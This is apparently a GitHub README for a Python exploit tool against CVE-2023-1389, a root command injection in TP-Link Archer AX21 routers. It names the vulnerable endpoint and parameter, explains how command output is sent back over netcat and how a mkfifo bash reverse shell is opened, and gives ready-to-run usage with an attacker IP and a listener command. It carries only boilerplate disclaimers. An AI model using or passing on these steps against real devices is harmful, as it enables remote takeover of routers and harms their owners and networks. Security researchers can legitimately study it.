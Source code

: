# TP-Link Archer AX21 Command Injection Exploit (CVE-2023-1389)

## Overview

This Python tool exploits a critical command injection vulnerability (CVE-2023-1389) in TP-Link Archer AX21 routers. It allows remote attackers to execute arbitrary commands, retrieve their output, or establish a reverse shell on vulnerable devices. The tool supports both GET and POST exploitation methods and provides multiple modes for flexible usage.

> **WARNING:** This tool is for authorized security testing and educational purposes only. Unauthorized use against devices you do not own or have explicit permission to test is illegal and unethical. The author is not responsible for any misuse or resulting damages.

---

## Features

- **GET/POST Exploitation**: Choose between HTTP GET or POST payload delivery.
- **Remote Command Execution**: Run arbitrary shell commands on the target router and retrieve output.
- **Reverse Shell**: Gain an interactive shell on the router via a reverse connection.
- **Interactive Shell Mode**: Issue multiple commands interactively.
- **Automatic Input Validation**: Checks for valid IP addresses and ports.
- **SSL/TLS Warning Suppression**: Automatically disables SSL certificate warnings for ease of use.
- **User-Friendly CLI**: Clear help messages and usage instructions.

---

## Technical Background

- **Vulnerability**: TP-Link Archer AX21 routers are vulnerable to command injection via the `country` parameter in the `/cgi-bin/luci/;stok=/locale` endpoint.
- **Attack Vector**: Unsanitized input allows attackers to inject shell commands, executed with root privileges.
- **Payload Delivery**: The exploit works over both HTTP and HTTPS and can use either GET or POST requests.
- **Output Retrieval**: Uses temporary files and netcat to exfiltrate command output back to the attacker.
- **Reverse Shell**: Employs a classic mkfifo-based bash reverse shell payload.

---

## Requirements

- Python 3.6+
- Linux system (for netcat compatibility)
- TP-Link Archer AX21 router (vulnerable firmware)
- Python dependencies: `requests`, `urllib3`

### Install dependencies

```bash
pip install -r requirements.txt
```

---

## Usage

### Basic Syntax

```bash
python3 CVE-2023-1389.py -a <ATTACKER_IP> [MODE] [OPTIONS]
```

### Arguments

- `-r`, `--router`       : Target router IP address (default: 192.168.0.1)
- `-a`, `--attacker`     : Your (attacker) IP address (**required**)
- `-p`, `--port`         : Local port for netcat listener (default: 9999)
- `-m`, `--method`       : HTTP method (`get` or `post`, default: `get`)
- `-t`, `--timeout`      : Request timeout in seconds (default: 5)
- `--https`              : Use HTTPS (default: enabled)
- `--no-https`           : Use HTTP

#### Modes (choose one, required)

- `-c`, `--command`      : Execute a single command on the router
- `-s`, `--shell`        : Obtain a reverse shell from the router
- `-i`, `--interactive`  : Interactive command shell mode

---

## Examples

**Execute a single command and retrieve output:**
```bash
python3 CVE-2023-1389.py -a 192.168.1.100 -c "id"
```

**Get a reverse shell:**
```bash
# In a separate terminal, start a listener:
nc -lvnp 9999

# Then run the exploit:
python3 CVE-2023-1389.py -a 192.168.1.100 -s
```

**Interactive shell mode:**
```bash
python3 CVE-2023-1389.py -a 192.168.1.100 -i
```

**Using POST method and HTTP:**
```bash
python3 CVE-2023-1389.py -a 192.168.1.100 -m post --no-https -c "uname -a"
```

---

## Troubleshooting & FAQ

- **No output received:**  
  Ensure your firewall allows incoming connections on the specified port. Make sure the router is reachable and running a vulnerable firmware version.

- **SSL/TLS errors:**  
  SSL warnings are suppressed, but if you encounter connection issues, try using `--no-https`.

- **Netcat not found:**  
  This tool requires `nc` (netcat) to be installed on your system.

- **Reverse shell fails to connect:**  
  Double-check your IP and port, and ensure your listener is running before sending the payload.

---

## Security, Ethics & Legal Notice

- Use this tool only on devices you own or have explicit permission to test.
- Unauthorized testing is illegal and unethical.
- You are solely responsible for your actions and any consequences arising from the use of this tool.

---

## Contribution

Contributions, improvements, and pull requests are welcome. Please open an issue for suggestions or bug reports.

---

## References

- [CVE-2023-1389 - NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-1389)
- [Original Advisory / Exploit Details](https://www.bleepingcomputer.com/news/security/tp-link-archer-ax21-routers-under-active-attack-via-new-cve-2023-1389/)
- [Exploit-DB Entry](https://www.exploit-db.com/exploits/)

---

## Disclaimer

This software is provided for educational and authorized security testing purposes only. The author assumes no liability for any misuse or damage caused by this tool.

---

If you have questions or wish to contribute, please open an issue or contact the repository maintainer.
